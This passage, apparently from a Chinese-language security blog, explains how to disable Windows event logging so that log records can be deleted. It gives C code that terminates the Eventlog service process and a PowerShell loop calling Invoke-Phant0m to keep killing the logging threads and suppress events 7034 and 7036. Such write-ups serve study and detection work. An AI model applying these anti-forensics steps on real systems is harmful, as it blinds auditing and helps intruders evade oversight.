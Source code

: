 ```

	printf("[+]Try to OpenProcess... ");
	HANDLE processHandle = OpenProcess(PROCESS_TERMINATE, FALSE, pid);
	if (processHandle == NULL)
	{
		printf("Error\n");
		return -1;
	}
	printf("Done\n");

	printf("[+]Try to TerminateProcess... ");
	BOOL bResult = TerminateProcess(processHandle, 0);
	if (bResult == NULL)
	{
		printf("[!]Error\n");
		return -1;
	}
	printf("Done\n");

	return 0;
}
```

**注：**

结束Eventlog服务对应的进程后，隔一段时间后Eventlog服务会自动重启

## 0x05 修改日志文件，删除日志记录
---

结束Eventlog服务对应的进程后，获得了操作日志文件的权限，修改日志文件的方法和c代码可参考上一篇文章《Windows单条日志清除（二）——程序实现删除evtx文件的单条日志记录》

代码参考地址：

https://github.com/3gstudent/Eventlogedit-Evolution

## 0x06 其他细节
---

关闭Eventlog进程和重启服务Eventlog会产生日志文件，位于system.evtx下，EventID为`7034`和`7036`

为了避免产生日志7034和7036，可通过关闭日志服务Eventlog线程的方法关闭日志记录功能

这里需要添加代码，写一个循环，在日志服务重启后立即结束线程，使得日志记录功能失效

参考powershell实现代码：

https://github.com/hlldz/Invoke-Phant0m

添加如下代码：

```
for($a=1;$a>0;$a=1)
{
    Invoke-Phant0m
    Start-Sleep -Seconds 1
}
```

